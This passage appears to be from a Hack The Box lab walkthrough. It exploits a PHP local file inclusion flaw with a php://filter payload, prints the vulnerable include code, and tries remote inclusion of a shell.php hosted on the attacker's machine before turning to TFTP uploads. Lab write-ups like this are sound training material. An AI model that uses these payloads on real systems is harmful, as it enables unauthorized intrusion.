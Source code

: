 3. We can now try to get the source code of the website, reference from https://highon.coffee/blog/lfi-cheat-sheet/

   ```
   http://<Target_IP>/?file=php://filter/convert.base64-encode/resource=index.php
   ```

   We would get a string 

   *PD9waHAKaWYgKCRfR0VUWydmaWxlJ10pIHsKICAgIGluY2x1ZGUoJF9HRVRbJ2ZpbGUnXSk7Cn0gZWxzZSB7CiAgICBoZWFkZXIoIkxvY2F0aW9uOiBodHRwOi8vJF9TRVJWRVJbSFRUUF9IT1NUXS9pbmRleC5waHA/ZmlsZT1ob21lLnBocCIpOwp9Cj8+Cg==*

   Then encrypt by cyberchef

   *<?php*
   *if ($GET['file']) {
       include($GET['file']);*
   *} else {*
       *header("Location: http://$_SERVER[HTTP_HOST]/index.php?file=home.php");*
   *}*
   *?>*

4. We can also fuzz by the wordlist to check any other file https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Linux, there are fuzzing tools like Burp

5. We can try to run a python server on our machine, and see if there is remote file inclusion vulnerability

   ```bash
   cd ~
   #prepapre a shell.php
   python -m http.server 80 #standup a server
   http://<Target_IP>/?file=http://<Tun0_IP>/shell.php #access it in the browser
   ```

   The python server would receive a hit, if the file is being accessed successfully. However, it is not the case

6. As we know that the machine is running **tftp** service, let's try if we can `get` or `put` any file on the machine

   ```
   tftp <Target_IP>
   ```

   Before we upload our shell.php, we would like to upload a lightwegith txt file first, to double check where the file will be uploaded. By googling the default directory of the tftp would be `/var/lib/tftpboot/`. (If the default directory not work, we can still look for the **config file** of tftp) A list of commands can be used for tftp:

   ![](../assets/img/htb-starting-point/88.png)
